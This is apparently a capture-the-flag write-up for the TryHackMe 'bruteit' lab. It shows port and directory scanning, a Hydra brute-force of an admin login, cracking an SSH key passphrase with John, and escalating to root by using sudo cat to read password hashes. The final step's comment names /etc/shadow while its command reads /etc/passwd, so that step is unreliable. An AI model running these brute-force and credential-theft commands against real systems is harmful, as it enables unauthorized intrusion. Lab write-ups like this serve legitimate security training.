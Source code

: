# 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```
{% endcode %}

Dirbusting with gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```
{% endcode %}

[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><img src=".gitbook/assets/Screenshot_20230901_085800.png" alt=""><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot_20230901_085820.png" alt=""><figcaption><p>POST data values</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:

{% code overflow="wrap" lineNumbers="true" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login with credentials:

<figure><img src=".gitbook/assets/Screenshot_20230901_085256.png" alt=""><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```
{% endcode %}
